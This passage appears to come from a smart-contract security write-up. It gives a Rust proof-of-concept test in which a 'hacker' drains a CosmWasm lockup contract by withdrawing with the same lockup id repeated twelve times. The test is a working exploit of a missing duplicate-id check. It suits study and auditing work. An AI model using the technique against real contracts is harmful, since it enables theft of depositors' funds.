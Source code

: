 
### Proof of concept

`integration_tests.rs` line 110
```rust
    #[test]
    fn theres_so_many() {
        // "user" now has a lockup with id of 1 and amount of Uint128(10000)
        let (mut app, contract_addr) = proper_instantiate();

        // create "hacker"
        let hacker = Addr::unchecked("hacker");
        // mint "hacker" Uint128(10000) coins
        app = mint_tokens(app, hacker.to_string().clone(), Uint128::from(10000u128));
        // "hacker" creates a lockup with their coins (id of 2)
        app.execute_contract(
            hacker.clone(),
            contract_addr.clone(),
            &ExecuteMsg::Deposit {},
            &[coin(MINIMUM_DEPOSIT_AMOUNT.u128(), DENOM)],
        )
        .unwrap();

        // Verify hacker has no funds
        let hacker_balance = app.wrap().query_balance(hacker.to_string(), DENOM).unwrap().amount;
        assert_eq!(hacker_balance, Uint128::zero());

        // Verify lockup exists
        let hacker_lockup: Lockup = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::GetLockup { id: 2 })
            .unwrap();
        assert_eq!(hacker_lockup.amount, MINIMUM_DEPOSIT_AMOUNT);
        assert_eq!(hacker_lockup.owner, hacker);

        // fast forward 24 hrs
        app.update_block(|block| {
            block.time = block.time.plus_seconds(LOCK_PERIOD);
        });

        //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ EXPLOIT HERE
        // Notice the duplicate ids in Withdraw message
        // 1 for the funds the hacker deposited,
        // 1 for the funds the non-malicious user deposited
        // 10 for the rest of the funds the contract has
        app.execute_contract(
            hacker.clone(),
            contract_addr.clone(),
            &ExecuteMsg::Withdraw { ids: vec![2; 12] },
            &[]
        ).unwrap();

        // Verify hacker has drained contract
        let hacker_balance = app.wrap().query_balance(hacker.to_string(), DENOM).unwrap().amount;
        assert_eq!(hacker_balance, Uint128::from(120000u128));

        // Verify contract has no funds
        let contract_balance = app.wrap().query_balance(contract_addr.to_string(), DENOM).unwrap().amount;
        assert_eq!(contract_balance, Uint128::zero());
    }
```

---